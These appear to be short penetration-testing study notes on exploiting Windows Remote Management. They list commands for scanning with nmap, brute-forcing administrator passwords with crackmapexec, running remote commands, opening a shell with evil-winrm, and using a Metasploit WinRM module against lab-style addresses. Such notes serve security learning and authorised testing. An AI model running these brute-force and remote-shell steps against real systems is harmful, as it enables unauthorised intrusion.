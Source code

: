 
# Exploiting WinRM
### WinRM
- Windows Remote Management Protocol
- Not ran by default
- Can be used to facilitate remote access with Windows systems over HTTP(S)
- TCP ports 5985 and 5986

### Exploiting WinRM
- Utility called **crackmapexec** for performing brute-force to identify users and their passwords
- to obtain the command shell we use **evil-winrm**
- **process**
	- `$ nmap -sV -p 5985 10.10.10.10`
	- `$ crackmapexec winrm 10.10.1.10 -u administrator -p <path to pass list>  `
	- `$ crackmapexec winrm 10.10.10.10 -u administrator -p password -x "whoami"`
	- `$ evil-winrm.rb -u administrator -p 'password' -i 10.10.10.10` - to get a command shell
- **Using Metasploit**
	- `$ service postgresql start && msfconsole`
	- `$ search winrm_script`
	- `$ use the exploit`
	- `$ set the options -ex: set FORCE_VBS true`
	- `$ exploit`
